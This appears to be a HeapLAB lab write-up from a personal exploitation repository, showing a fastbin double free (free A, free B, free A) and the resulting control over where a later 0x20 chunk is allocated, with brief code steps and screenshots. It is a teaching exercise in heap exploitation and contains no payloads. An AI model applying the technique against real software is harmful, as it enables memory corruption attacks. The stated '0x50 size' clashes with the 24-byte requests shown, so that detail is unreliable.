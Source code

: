 ## Fastbin with Use-After-Free
*****************************************
1.- Request two 0x50 size chunk
```
chunk_A = malloc(24, b"A"*24)
chunk_B = malloc(24, b"B"*24)
```
![imagen1.png](https://github.com/ivanmedina/Pwning/tree/master/HEAP/HeapLAB/fastbin_dup/assets/imagen1.png)

2.- Free chunk A
```
free(chunk_A)
```
![imagen2.png](https://github.com/ivanmedina/Pwning/tree/master/HEAP/HeapLAB/fastbin_dup/assets/imagen2.png)

3.- Free chunk B
```
free(chunk_B)
```
![imagen3.png](https://github.com/ivanmedina/Pwning/tree/master/HEAP/HeapLAB/fastbin_dup/assets/imagen3.png)

4.- Free chunk A
```
free(chunk_A)
```
![imagen4.png](https://github.com/ivanmedina/Pwning/tree/master/HEAP/HeapLAB/fastbin_dup/assets/imagen4.png)

5.- malloc(24,b'C'*24)
```
malloc(24,b'C'*24)
```
![imagen5.png](https://github.com/ivanmedina/Pwning/tree/master/HEAP/HeapLAB/fastbin_dup/assets/imagen5.png)

6.- There are the CCCCCCC… where before was the 7020 pointer :O, so where will do now the Ds malloc?
```
malloc(24,b'D'*24)
```
![imagen6.png](https://github.com/ivanmedina/Pwning/tree/master/HEAP/HeapLAB/fastbin_dup/assets/imagen6.png)

7.- Yes, in the next chunk linked in the 0x20 fastbin list...
So now we will send some EEEE's
```
malloc(24,b'E'*24)
```
![imagen7.png](https://github.com/ivanmedina/Pwning/tree/master/HEAP/HeapLAB/fastbin_dup/assets/imagen7.png)

And now we can note that we controll where the next 0x20 fastbin will be allocated.